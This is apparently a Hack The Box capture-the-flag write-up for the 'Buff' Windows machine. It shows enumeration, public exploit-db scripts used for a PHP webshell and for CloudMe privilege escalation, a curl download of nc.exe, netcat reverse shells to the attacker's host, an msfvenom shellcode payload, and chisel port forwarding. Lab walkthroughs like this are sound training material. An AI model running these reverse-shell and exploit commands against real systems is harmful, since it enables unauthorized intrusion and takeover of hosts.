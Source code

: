 ```yaml
---
title: Buff
author: 0xfinlay
date: 2020-11-21 15:00:00
categories: [hack-the-box, windows]
tags: [hack-the-box, easy, windows, powershell, cmd, web, http, rce, plink, exploit, php, shell, administrator]
---
```


![cover](/assets/img/posts/buff/cover.png)

Buff is an easy box that involved an RCE php web shell exploit, uploading netcat to the box to get a proper shell and finding the user flag. Getting Administrator involved exploiting a CloudMe service through port forwarding.

# Overview
- Enumeration of the target
- Discovering the website software and finding an exploit
- Using the exploit to upload netcat and get a reverse shell
- user.txt
- Exploiting CloudMe through port forwarding to get Administrator
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~/htb/buff$ nmap -sC -sV -Pn 10.10.10.198
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.198
Host is up (0.028s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.75 seconds
```

All we see is a website on port 8080, let's take a look.

## Website

![website](/assets/img/posts/buff/website.png)

We can see a fitness website. If we take a look around the pages, we can see what software is being used on the contact page.

![contact](/assets/img/posts/buff/contact.png)

It's using Gym Management Software 1.0, after searching online, we find a webshell exploit on [exploit-db](https://www.exploit-db.com/exploits/48506).

# Exploitation

## Webshell

We can run the program with the address of the website to get a webshell.

```bash
finlay@kali:~/htb/buff$ python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

## Reverse shell

Now we can upload netcat to the box and use it to get a reverse shell.

First, start a web server locally with `nc.exe` in the same directory.

```bash
finlay@kali:~/htb/buff$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then, use curl on the webshell to download `nc.exe`.

```powershell
C:\xampp\htdocs\gym\upload> curl 10.10.14.19:8000/nc.exe -o nc.exe
```

Then, setup a listener locally:

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, execute netcat:

```bash
C:\xampp\htdocs\gym\upload> nc.exe 10.10.14.19 4444 -e cmd.exe
```

And we see that we got a connection to our listener:

![user_shell](/assets/img/posts/buff/user_shell.png)

## User.txt

And we find the flag in C:\Users\shaun\Desktop

![user_flag](/assets/img/posts/buff/user_flag.png)

# Privilege Escalation

After searching around on the box, we find `CloudMe_1112.exe` in the Downloads folder, we can exploit this to get Administrator. We need to download the exploit from [exploit-db](https://www.exploit-db.com/exploits/48389).

To use this exploit, we need to create the payload in shellcode, I used msfvenom to do this.

```bash
finlay@kali:~/htb/buff$ msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.19 5555' -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 273 (iteration=0)
x86/shikata_ga_nai chosen with final size 273
Payload size: 273 bytes
Final size of python file: 1452 bytes
payload =  b""
payload += b"\xbb\x8e\x9d\x9f\x1c\xda\xd9\xd9\x74\x24\xf4\x58"
payload += b"\x29\xc9\xb1\x3e\x83\xe8\xfc\x31\x58\x10\x03\x58"
...
```

Now we can insert this into the exploit from exploit-db instead of the one there.

Next, we need to setup port forwarding on the target so we can run the script. I did it using chisel, first you need to setup a chisel server locally.

```bash
finlay@kali:~/htb/buff$ ./chisel server -p 8080 -reverse
2020/11/20 15:23:18 server: Reverse tunnelling enabled
2020/11/20 15:23:18 server: Fingerprint lSUQvDZyfhHoCrL3ekB/eGcLRkBSVoDqEyGuWi2zFv8=
2020/11/20 15:23:18 server: Listening on http://0.0.0.0:8080
```

Then we connect to the server from the target, which will port forward when we run the python script.

```cmd
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.19:8080 R:8888:127.0.0.1:8888
chisel.exe client 10.10.14.19:8080 R:8888:127.0.0.1:8888
2020/11/20 20:33:41 client: Connecting to ws://10.10.14.19:8080
2020/11/20 20:33:41 client: Connected (Latency 29.7535ms)
```

Then we setup a listener locally on the same port that we specified when we made the payload:

```bash
finlay@kali:~$ nc -nvlp 5555
listening on [any] 5555 ...
```

Finally, we run the exploit.

```bash
finlay@kali:~/htb/buff$ python privesc.py
```

And we see that we got a connection on our listener:

![admin_shell](/assets/img/posts/buff/admin_shell.png)

## Root.txt

And we find the flag in C:\Users\Administrator\Desktop

![admin_flag](/assets/img/posts/buff/admin_flag.png)
